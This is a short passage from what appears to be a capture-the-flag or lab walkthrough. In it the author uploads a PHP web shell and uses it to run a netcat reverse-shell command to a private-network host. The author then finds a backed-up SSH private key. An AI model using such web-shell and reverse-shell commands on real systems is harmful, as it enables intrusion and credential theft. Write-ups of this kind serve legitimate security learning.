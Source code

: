 And upload it. This gave me `RCE`, now I can get the damn reverse shell, finally 😌😌

***

I executed the following command:

```bash
➜ http http://192.168.43.185:26980/uploads/shell.php5\?cmd\="nc -e /bin/sh 192.168.43.70 4444"
```

And got the reverse shell

![](images/kfio/reverse-shell.png)

I started to look around in the directories and found a file name `id_rsa.bak`

![](images/kfio/private-key.png)

